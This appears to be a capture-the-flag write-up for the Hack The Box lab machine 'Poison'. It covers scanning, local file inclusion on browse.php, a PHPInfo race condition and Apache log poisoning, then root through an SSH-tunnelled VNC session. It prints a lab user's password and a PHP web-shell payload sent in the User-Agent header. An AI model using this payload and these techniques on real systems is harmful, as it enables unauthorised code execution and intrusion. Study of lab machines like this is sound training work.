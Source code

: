 # Poison

## Information Gathering
10.10.10.84<br>
Poison<br>

Software Versions
- OpenSSH 7.2
- Apache httpd 2.4.29
- PHP 5.6.32

## Enumeration
Start with an nmap scan:
```bash
# Nmap 7.92 scan initiated Fri Feb 18 15:19:10 2022 as: nmap -sC -sV -oN nmap/poison.nmap 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 15:19:30 2022 -- 1 IP address (1 host up) scanned in 20.09 seconds

```
I also run a Nikto scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.84
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.6.32
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD PHP/5.6.32 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ HEAD Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ TNNUJRCH Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ GET /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-12184: GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: GET /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
```

## Exploitation
There are actually three known AV's for this box.

### Pwdbackup.txt
This is how you cheese the box.<br>
There is a file hosted on the webserver title pwdbackup.txt. Fetching this file yields a string which was encoded in base64 13 times. Decoding this gives you the password for a user. There is a LFI vulnerability for browse.php which allows you to exfiltrate information. The /etc/passwd file shows the username to be charix. This gives you foothold on the box.
```
charix:Charix!2#4%6&8(0
```

### PHP Race Condition
<a href="https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf">This</a> research paper shows this really cool race condition when a webserver has the "file_upload" feature set and is also vulnerable to a LFI vulnerability. It's a bit dense so there is <a href="https://github.com/sinsinology/phpinfo-Local-File-Inclusion">this</a> PoC which is a bit easier to understand.<br>
Essentially what the script does is,
1. Make a very large request. This causes the server 2-3 ms extra time to compute and thus, the file stays on the server for much longer.
2. Use LFI to hit the file before it gets deleted from cache

I actually get the script off of <a href="https://github.com/swisskyrepo/PayloadsAllTheThings">PayloadAllTheThings</a>. <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py">This</a> is the script I used. I made some minor changes such as the PHP payload to be used. I also had to change all instances of ">" into "&gt" because of PHP entities. You also have to remove the NULL byte in LFIREQ. After a few seconds, I get a reverse shell!<br>
Note: On BSD, files for the webserver are stored at /usr/local/www/apache24/data by default.

### Log Poisoning
This is the intended method for getting foothold on the box.<br>
The log file for apache2 in OpenBSD is located in /var/log/httpd-access.log. We can view this page using the LFI. The key thing to note is that the user-agent is included in the access log. Below is the result of me using cURL to get a file on the server
```
10.10.14.122 - - [20/Feb/2022:03:13:17 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5759905 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:13:18 +0100] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.10.14.122 - - [20/Feb/2022:03:14:38 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 5760312 "-" "curl/7.81.0"
```
Using <b><?php phpinfo(); ?></b> allows me to render the phpinfo of the server from the log file. I use the payload:
```php
Mozilla/5.0 <?php echo system($_GET['cmd']); ?> Firefox/78.0
```
In the user agent. After that it's as simple as setting the "cmd" parameter and executing commands to get a reverse shell.

## Privilege Escalation
Looking at all the services/processes running as root:
```bash
ps aux | grep ^root

root   620  0.0  0.7  57812  7052  -  Is   04:26    0:00.00 /usr/sbin/sshd
root   625  0.0  1.1  99172 11516  -  Ss   04:27    0:00.03 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   643  0.0  0.6  20636  6140  -  Ss   04:28    0:00.02 sendmail: accepting connections (sendmail)
root   653  0.0  0.2  12592  2436  -  Is   04:28    0:00.00 /usr/sbin/cron -s
root   709  0.0  0.8  85228  7768  -  Is   04:29    0:00.01 sshd: charix [priv] (sshd)
root   529  0.0  0.9  23620  8872 v0- I    04:26    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -loc
root   540  0.0  0.7  67220  7064 v0- I    04:26    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541  0.0  0.5  37620  5312 v0- I    04:26    0:00.01 twm
```
VNC is running as root. We can also see what services are running on what ports.
```bash
netstat -an | grep LISTEN

tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```
VNC is running on the localhost interface. We can perform a SSH tunnel/SSH port-forwarding. To port forward:
```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
This command pretty much says:
- Listen on my machine on port 5901 (-L)
- Any traffic that goes through ssh (ssh charix@10.10.10.84)
- Send to localhost on port 5901

We can use vncviewer to connect on our localhost. This goes through SSH and on the other side gets forwarded to 127.0.0.1
```bash
vncviewer -passwd secret 127.0.0.1::5901
``` 
This opens up a sort-of RDP session as root.
